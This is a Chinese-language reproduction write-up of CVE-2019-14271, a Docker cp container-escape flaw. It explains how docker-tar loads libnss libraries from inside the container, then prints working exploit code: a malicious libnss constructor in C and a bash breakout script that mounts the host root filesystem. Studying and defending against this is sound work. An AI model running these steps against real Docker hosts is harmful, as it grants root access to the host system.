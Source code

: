 （CVE-2019-14271）Docker copy漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

Docker 19.03.1

三、复现过程
------------

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix
cp命令非常相似。要从容器中复制/var/logs，语法是docker cp
container\_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![](./resource/(CVE-2019-14271)Dockercopy漏洞/media/rId25.png)

图 1. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker
daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change
Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![](./resource/(CVE-2019-14271)Dockercopy漏洞/media/rId26.png)

图 2. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host
root。因此，攻击者控制的容器就可以尝试和诱使docker
cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go
v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss\_\*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss\_\*.so库的镜像

容器中含有被攻击者替换的libnss\_\*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss\_files.so文件，下载了库函数的源码，并在代码中加入了一个函数------run\_at\_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run\_at\_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run\_at\_link函数就会执行。下面是run\_at\_link的代码：

    #include ...

    #define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
    #define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

    bool is_priviliged();

    __attribute__ ((constructor)) void run_at_link(void)
    {
         char * argv_break[2];
         if (!is_priviliged())
               return;

         rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
         fprintf(log_fp, "switched back to the original libnss_file.so");

         if (!fork())
         {

               // Child runs breakout
               argv_break[0] = strdup("/breakout");
               argv_break[1] = NULL;
               execve("/breakout", argv_break, NULL);
         }
         else
               wait(NULL); // Wait for child

         return;
    }
    bool is_priviliged()
    {
         FILE * proc_file = fopen("/proc/self/exe", "r");
         if (proc_file != NULL)
         {
               fclose(proc_file);
               return false; // can open so /proc exists, not privileged
         }
         return true; // we're running in the context of docker-tar
    }

查/proc目录完成的。如果run\_at\_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run\_at\_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run\_at\_link执行。

为简化该漏洞利用，run\_at\_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run\_at\_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![](./resource/(CVE-2019-14271)Dockercopy漏洞/media/rId29.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss\_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host\_fs的容器中，并将消息写入host的/evil目录。/breakout脚本代码如下：

    umount /host_fs && rm -rf /host_fs
    mkdir /host_fs


    mount -t proc none /proc     # mount the host's procfs over /proc
    cd /proc/1/root              # chdir to host's root
    mount --bind . /host_fs      # mount host root at /host_fs
    echo "Hello from within the container!" > /host_fs/evil

四、参考链接
------------

> https://xz.aliyun.com/t/6806

